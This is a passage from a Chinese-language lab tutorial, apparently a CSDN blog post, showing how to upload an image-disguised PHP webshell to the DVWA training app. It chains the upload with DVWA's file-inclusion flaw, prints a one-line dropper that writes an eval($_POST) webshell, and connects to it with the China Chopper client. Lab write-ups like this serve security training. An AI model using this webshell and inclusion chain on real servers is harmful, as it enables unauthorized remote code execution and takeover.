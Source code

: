 > 【备注】以下为CMD下用copy命令制作“**图片木马**”的步骤，其中，`ClearSky.jpg/b`中“b”表示“**二进制文件**”，`hack.php/a`中“a"表示**ASCII码文件**。

  
 生成带有木马的图片文件`hack.jpg`：  
   
 接着我们打开生成的图片木马文件，我们可以看到一句话木马已附在图片文件末尾：  
   
 然后我们试着将生成的木马图片文件`hack.jpg`上传，上传成功！！！  
 访问图片木马：  
 

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508164506126.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508164551828.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508171013299.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508164821934.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508165230555.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

**接下来，上菜刀**！！！！！！！！！！！  
   
 但是由于是图片木马，PHP脚本并无法被解析，菜刀连接木马失败：  
   
 既然图片木马也无法解析，那该怎么办？High级别的程序只允许上传图片啊……别慌，此处结合DVWA靶场自带的文件包含漏洞即可成功上传PHP木马并上菜刀连接了，下面进行攻击演示。

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508165406375.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508165338813.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

首先通过上述方法制造新的图片木马，图片文件后面的PHP脚本更改为：

```text
<?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[hack]);?>'); ?>
1
```

然后制作新的图片木马，如下图所示：  
   
 接着上传到DVWA，然后借助文件包含漏洞模块访问该木马文件：  
 访问的地址如下：`http://10.27.25.118:8088/DVWA/vulnerabilities/fi/?page=file:///C:\SoftWare\PhpStudy2016\WWW\DVWA\hackable\uploads\hacker.jpg`，如下图所示：  
 此时在DVWA文件包含漏洞的路径下便自动生成了PHP一句话木马脚本文件`muma.php`，如下图所示：  
   
 此时再上菜刀连接，即可成功连接：  
   
 

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508172613752.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508173247835.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508173400234.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

![&#x5728;&#x8FD9;&#x91CC;&#x63D2;&#x5165;&#x56FE;&#x7247;&#x63CF;&#x8FF0;](https://img-blog.csdnimg.cn/20200508173834202.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl8zOTE5MDg5Nw==,size_16,color_FFFFFF,t_70)

